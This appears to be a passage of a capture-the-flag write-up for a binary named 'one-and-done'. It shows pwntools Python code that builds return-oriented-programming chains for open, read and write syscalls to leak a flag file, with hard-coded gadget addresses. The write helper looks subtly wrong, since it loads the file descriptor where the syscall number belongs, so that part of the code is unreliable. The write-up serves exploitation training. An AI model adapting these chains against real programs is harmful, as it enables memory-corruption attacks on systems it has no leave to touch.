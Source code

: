 ```cs
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
    return pl

def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl
```

exp (orw) : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x405ea0
gets_addr = 0x0000000000401230


#       unsigned int fd, char *buf, size_t count
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
    return pl

```